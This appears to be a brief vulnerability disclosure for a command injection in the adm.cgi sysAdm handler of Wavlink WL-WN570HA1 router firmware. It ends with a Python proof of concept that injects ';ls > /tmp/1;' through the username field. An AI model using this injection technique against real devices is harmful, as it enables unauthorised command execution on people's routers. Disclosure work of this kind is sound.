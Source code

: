 # command injection

## WAVLINK_WL_WN570HA1

version: 20220621

## Description:

There is a command injection in adm.cgi/sysAdm

## Source:

you may download it from : https://www.wavlink.com/en_us/firmware/details/762dc36209.html

## Analyse:

![](1.png)

get value from username

![](2.png)

if our password is correct, we can get into here, and pass the check of ';', cause command injection

## POC

```
url = "http://192.168.0.1/cgi-bin/adm.cgi"
payload = ';ls > /tmp/1;' + '\n'

r = requests.post(url, data={ 'page':'sysAdm', 'username': + payload, 'SYSPASS':'yours'})
```
